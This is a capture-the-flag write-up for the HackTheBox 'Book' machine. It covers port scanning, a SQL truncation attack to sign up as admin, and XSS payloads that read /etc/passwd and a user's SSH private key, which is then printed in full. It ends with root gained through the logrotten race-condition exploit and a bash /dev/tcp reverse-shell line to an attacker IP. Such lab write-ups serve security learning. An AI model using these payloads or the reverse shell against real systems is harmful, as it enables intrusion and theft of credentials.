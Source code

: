 ```yaml
---
title: HackTheBox Book Writeup
published: true
---
```


![logo](https://i.ibb.co/7gtqsCZ/book.png)

# []() Methodology

* Nmap scan
* Directory Enumeration
* SQL Truncation Lead To Sign up as Admin
* XSS lead to Local File Read.
* Read the SSH Private-Key with XSS
* Privilege Escalation

# []()Nmap-Scan:

> as always, i did nmap scan to find out which servicecs was running in this machine, i found 2 opened ports.

> 22 for ssh and 80 for apache server.

> nmap -sV -sC -oN scan.txt 10.10.10.176

```ruby

Nmap scan report for 10.10.10.176
Host is up (0.38s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# []() Checking The WebPage:

* the webpage was very simple, in the webpage we can signup with normal user, but we need to signup with admin account so we will signup as admin with SQL Truncation Attack.

* after signing up as admin, we can read the pdf's of the users so as a normal user i will inject my xss payload to read local files in the server and from the admin panel i will see the ouptut.

* let's go.

> ![webpage](https://i.ibb.co/KNkgkTd/we.png)

* the webpage very simple, now let's sign up as a normal user and check what we have.

> ![home](https://i.ibb.co/44fVS89/home.png)

> very simple! but the important thing in this page is the collection section, we will use it to achieve our attack.

> now we need to sign up as admin, i will use sql truncation attack to sign up as admin and you can learn about it from [here](https://resources.infosecinstitute.com/sql-truncation-attack/#gref)

* if you try to sign up with "admin@book.htb" you will fail without the SQL Attack.

> ![](https://i.ibb.co/k5wLj6D/admin.png)

> i will learn you how to achieve the sql attack now.
>
> ![](https://i.ibb.co/Sd6YVKX/sql-attack.gif)

* nice! let's start now.

# []() SQL Truncation & XSS 

* first thing let's fire up girbuster to search for any important directory.

> ![](https://i.ibb.co/Zc9yqBR/gobuster.png)

* nice! we found the admin login page.

> ![](https://i.ibb.co/d5CqVyy/loginadmin.png)

* now i will sign up as admin using the SQL Truncation attack and login in the normal page and the admin panel too.

> ![](https://i.ibb.co/k1W3Q8k/adminpanel.png)

* we logged in now as admin

> go to the normal page and go to collections and upload any file with the xss payload in the title. [XSS-Attack](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

> this is the normal user page, i will upload txt file with xss payload in the title.


```ruby

 <script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>

```

> ![](https://i.ibb.co/Mf6fZGL/normal-user.png)

> go to admin panel and download the collections pdf and pingo!.
>
> ![](https://i.ibb.co/XWC7sMv/etc.png)

* nice!

* let's read the **/home/reader/.ssh/id_rsa** to login with ssh as **reader**.

```ruby

 <script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>

```

> ![](https://i.ibb.co/9cZW2y2/ssh-reader.png)

* nice!

* to see all of the id_sra txt just convert the pdf to txt and you will be able to read it. use this tool [pdf-miner](https://github.com/pdfminer/pdfminer.six.git)

```ruby

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----

```

* let's login with this key now.

> **User-Flag**
>
> ![](https://i.ibb.co/xgShwqh/user.gif)


# []() Privilege Escalation --> Root

> after some enumeration i found that there is service running with root privilege so i used it to got root access. let's go.

> i will use pspy64 to check the processes, and here it is.
>
> ![](https://i.ibb.co/fN9GJfy/logrotate.png)

* nice! what is logrotate ?!

> logrotate is designed to ease administration of systems that generate large numbers of log files. It allows automatic rotation, compression, removal, and mailing of log files. Each log file may be handled daily, weekly, monthly, or when it grows too large. [Logrotate](https://linux.die.net/man/8/logrotate)

> i will use this exploit [Logrotate-Exploit](https://github.com/whotwagner/logrotten)

* logrotate is prone to a race condition after renaming the logfile.

* If logrotate is executed as root, with option that creates a file ( like create, copy, compress, etc.) and the user is in control of the logfile path, it is possible to abuse a race-condition to write files in ANY directories.

* An attacker could elevate his privileges by writing reverse-shells into directories like "/home/reader/backups/access.log".

> we will use this exploit to abuse the access.log file in the **/home/reader/backups/** to give us reverse shell as root, then we will cat the ssh-key for root.

* let's go

> clone the exploit in your machine with **git clone https://github.com/whotwagner/logrotten.git**

> compile it with **gcc logrotten.c -o logrotexp**, and upload the exploit to book machine.

> the exploit need a payload so let's meke it. >> **bash -i >& /dev/tcp/10.x.x.x/8080 0>&1**

* we need to be fast, let's go.

> SSH-Private key --> root
>
> ![root](https://i.ibb.co/pWRHfFt/root.gif)

* nice!, we got the SSH-key for root.

> Root-Flag
>
> ![pwned](https://i.ibb.co/YthDBts/pwned.gif)

* Thanks for reading.


